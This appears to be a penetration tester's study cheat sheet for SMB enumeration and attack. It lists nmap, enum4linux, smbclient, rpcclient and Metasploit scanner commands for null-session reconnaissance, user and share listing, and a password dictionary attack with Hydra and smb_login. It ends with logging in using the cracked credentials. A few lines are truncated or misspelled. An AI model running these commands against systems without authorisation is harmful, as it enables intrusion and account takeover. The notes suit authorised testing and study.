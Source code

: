 Nmap [IP] -sU --top-port 25 --open //scan for top 25 UDP ports and displays only the ones that are open

Nmap [IP] -p445 --script smb-os-discovery // Operating system discovery of the port 445

Msfconsole //metasploit framework

Use auxiliary/scanner/smb/smb_version // configure and run , checks for the version

Nmblookup -A [

Smbclient -L [ip] -N // checks for information using null session

Rpcclient -U "" -N [ip] //connect using a null session

Srvinfo //check server info in the rpcclient session

Enum4linux -o [ip] //get operating system information

Smbclient -L [ip] -N //checks information with null session

Nmap [ip] -p445 --script smb-protocols // checks for SMB protocol used

Msfconsole:

Use auxiliary/scanner/smb/smb2 // configure and run to find about smb version

Enum4linux -U [ip] // list of users

Msfconsole:

Use auxiliary/scanner/smb/smb_enumshares // configure and run, returns shares

Enum4linux -S [ip] //returns shares

Smbclient -L [ip] -N //returns shares

Enum4linux -G [ip] // return groups

Rcpclient -U "" -N [ip] ->enumdomgroups //returns groups

Enum4linux  -i [ip]  //returns printers shared

Smbclient //[ip]/public -N //connect with null session

- SMB dictionary attack

Msfconsole:

Use auxiliary/scanner/smb/smb_login //configure(rhosts, pass_file, smbuser) and run. Tries to crack the pass for the user configured from a list of common passwords

Gzip -d  [path] //decompress a zip file

Hydra -l  [username] -P [path to file] [ip] smb //Tries to crack the pass for the user configured from a list of common passwords

Smbmap -H [ip] -u [username] -p [password] //connects to a user that was cracked

Smbclient //[ip]/[user] -U [user] //connects to the user's shared dir/files

Msfconsole:

Use auxiliary/scanner/smb/pipe_auditor //configure(smbuser, smbpass, rhost) run. Gives back a list of pipes
